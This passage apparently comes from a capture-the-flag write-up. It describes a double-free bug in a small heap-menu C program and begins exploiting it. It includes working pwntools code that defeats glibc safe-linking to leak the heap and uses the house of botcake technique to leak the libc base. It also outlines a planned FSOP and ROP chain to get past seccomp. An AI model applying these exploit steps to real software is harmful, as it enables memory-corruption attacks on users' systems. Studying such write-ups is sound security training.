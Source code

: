 ```c
    {
      if ( v4 != 2 )
        break;
      v7 = inidx();
      free(*((void **)&mem + v7));
    }
  }
  puts("Invalid choice!");
  _exit(0);
}
```

The program allows to create a chunk of any size, filling it with user-supplied input with fgets. We can print its content or free it. The bug lies in the free handler that doesn't check if a chunk has already been free'd.

# Exploitation

Before bypassing the seccomp we need to get code execution, to do so I will use the very classic exploitation flow: `FSOP stdout to leak environ` => `ROPchain`. I could have used an [angry FSOP](https://blog.kylebot.net/2022/10/22/angry-FSROP/) to directly get code execution by hijjacking the vtable used by the wide operations in stdout, given actually it is not checked against a specific address range as it is the case for the `_vtable`. To get code execution, we need to get the heap and libc base addresses.

## Heap and libc leak

To get a heap leak we can simply do defeat safe-linking:
```py
# leak

free(0)
view(0)

heap = ((pwn.u64(io.recvline()[:-1].ljust(8, b"\x00")) << 12) - 0x2000)
pwn.log.info(f"heap @ {hex(heap)}")
```

To get an arbitrary read / write I used the house of botcake technique. I already talked about it more deeply [there](https://nasm.re/posts/catastrophe/#house-of-botcake). During this house I put a chunk in the unsortedbin, leaking the libc:
```py
add(0, 0x100, b"YY")

add(7, 0x100, b"YY") # prev
add(8, 0x100, b"YY") # a

# fill tcache
for i in range(7):
    free(i)

for _ in range(20):
    add(9, 0x10, b"/bin/sh\0") # barrier

free(8) # free(a) => unsortedbin
free(7) # free(prev) => merged with a

# leak libc
view(8)

libc.address = pwn.u64(io.recvline()[:-1].ljust(8, b"\x00")) - 0x219ce0 # offset of the unsorted bin
pwn.log.success(f"libc: {hex(libc.address)}")
```